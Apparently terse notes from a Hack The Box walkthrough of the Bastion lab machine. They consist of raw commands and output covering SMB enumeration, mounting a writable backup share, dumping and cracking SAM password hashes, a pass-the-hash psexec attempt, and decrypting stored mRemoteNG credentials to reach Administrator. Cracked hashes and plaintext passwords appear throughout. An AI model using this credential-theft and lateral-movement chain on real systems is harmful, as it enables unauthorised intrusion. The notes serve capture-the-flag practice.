







PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -17m28s, deviation: 34m36s, median: 2m30s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-02-19T16:38:26+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-19T15:38:27
|_  start_date: 2021-02-19T15:37:39

kali@kali:~/htb/boxes/bastion/10.10.10.134$ nmap --script smb-enum* -p139,445 10.10.10.134                                                                                                                                                                                                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-19 16:36 CET
Nmap scan report for 10.10.10.134
Host is up (0.096s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-enum-sessions: 
|_  <nobody>

Nmap done: 1 IP address (1 host up) scanned in 35.14 seconds

 Windows Server 2016 Standard 14393

 kali@kali:~/htb/boxes/bastion/10.10.10.134$ smbclient -L 10.10.10.134
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.

kali@kali:~/htb/boxes/bastion/10.10.10.134$ smbmap -H 10.10.10.134 -u Aadasdsad
[+] Guest session       IP: 10.10.10.134:445    Name: 10.10.10.134                                      
[|] Work[!] Unable to remove test directory at \\10.10.10.134\Backups\LDGEMGNIRC, please remove manually
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC

sudo mount -t cifs -o username=anon //10.10.10.134/Backups smb

samdump2 SYSTEM SAM -o sam.out

john --format=NT -w ~/htb/rockyou.txt sam.out

kali@kali:~/htb/boxes/bastion/10.10.10.134$ john --show sam.out 
*disabled* Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje::1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

3 password hashes cracked, 0 left

kali@kali:~/htb/boxes/bastion/10.10.10.134$ psexec.py L4mpje@10.10.10.134 -hashes aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.134.....
[-] share 'ADMIN$' is not writable.
[*] Found writable share Backups
[*] Uploading file RLYbIjxI.exe
[*] Opening SVCManager on 10.10.10.134.....
[-] Error opening SVCManager on 10.10.10.134.....
[-] Error performing the installation, cleaning up: Unable to open SVCManager

bureaulampje

l4mpje@BASTION c:\Windows>systeminfo                                                                                                                          
ERROR: Access denied 

C:\Users\L4mpje\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
C:\Windows\Panther\setupinfo

"%userprofile%\AppData\Roaming\mRemoteNG\confCons

PS C:\users\L4mpje\AppData\Roaming\mRemoteNG> dir                                                                                                             
                                                                                                                                                              
                                                                                                                                                              
    Directory: C:\users\L4mpje\AppData\Roaming\mRemoteNG                                                                                                      
                                                                                                                                                              
                                                                                                                                                              
Mode                LastWriteTime         Length Name                                                                                                         
----                -------------         ------ ----                                                                                                         
d-----        22-2-2019     14:01                Themes                                                                                                       
-a----        22-2-2019     14:03           6316 confCons.xml                                                                                                 
-a----        22-2-2019     14:02           6194 confCons.xml.20190222-1402277353.backup                                                                      
-a----        22-2-2019     14:02           6206 confCons.xml.20190222-1402339071.backup                                                                      
-a----        22-2-2019     14:02           6218 confCons.xml.20190222-1402379227.backup                                                                      
-a----        22-2-2019     14:02           6231 confCons.xml.20190222-1403070644.backup                                                                      
-a----        22-2-2019     14:03           6319 confCons.xml.20190222-1403100488.backup                                                                      
-a----        22-2-2019     14:03           6318 confCons.xml.20190222-1403220026.backup                                                                      
-a----        22-2-2019     14:03           6315 confCons.xml.20190222-1403261268.backup                                                                      
-a----        22-2-2019     14:03           6316 confCons.xml.20190222-1403272831.backup                                                                      
-a----        22-2-2019     14:03           6315 confCons.xml.20190222-1403433299.backup                                                                      
-a----        22-2-2019     14:03           6316 confCons.xml.20190222-1403486580.backup                                                                      
-a----        22-2-2019     14:03             51 extApps.xml                                                                                                  
-a----        22-2-2019     14:03           5217 mRemoteNG.log                                                                                                
-a----        22-2-2019     14:03           2245 pnlLayout.xml                                                                                                
                                                                  

https://github.com/kmahyyg/mremoteng-decrypt/releases/download/v1/decipher_mremoteng.jar

java -jar decipher_mremoteng.jar "yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
User Input: yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB
Use default password for cracking...
Decrypted Output: bureaulampje

java -jar decipher_mremoteng.jar "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
User Input: aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Use default password for cracking...
Decrypted Output: thXLHM96BeKL0ER2

ssh Administrator@10.10.10.134
thXLHM96BeKL0ER2

